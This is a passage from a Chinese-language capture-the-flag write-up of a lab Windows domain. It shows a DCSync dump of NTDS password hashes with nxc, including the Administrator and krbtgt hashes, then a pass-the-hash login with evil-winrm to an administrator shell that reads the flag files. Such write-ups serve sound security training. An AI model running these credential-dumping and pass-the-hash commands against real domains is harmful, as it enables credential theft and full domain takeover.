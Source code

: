 获得机器账户`DC01$`的NTLM哈希：`aa905227fd1b4142a01a09912606af5c`

## DCSync攻击

### 验证机器账户权限

使用机器账户哈希验证权限：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nxc smb 192.168.205.146 -u 'DC01$' -H 'aa905227fd1b4142a01a09912606af5c' --ntds
[+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.205.146 445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
SMB         192.168.205.146 445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         192.168.205.146 445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
SMB         192.168.205.146 445    DC01             soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
```

成功执行DCSync攻击，获得域内所有用户的密码哈希，包括域管理员Administrator的NTLM哈希：`8982babd4da89d33210779a6c5b078bd`

# 六、获取域管权限

使用域管理员的NTLM哈希进行Pass-the-Hash攻击：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ evil-winrm -i 192.168.205.146 -u Administrator -H '8982babd4da89d33210779a6c5b078bd'       
                                      
Evil-WinRM shell v3.7
...
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
soupedecode\administrator
```

成功获得域管理员权限。

## 获取flag

```bash
*Evil-WinRM* PS C:\Users> type C:\Users\Administrator\Desktop\root.txt
d41d8cd98f00b204e9800998ecf8427e

*Evil-WinRM* PS C:\Users> type C:\Users\zximena448\Desktop\user.txt
2fe79eb0e02ecd4dd2833cfcbbdb504c
```

# 七、攻击总结
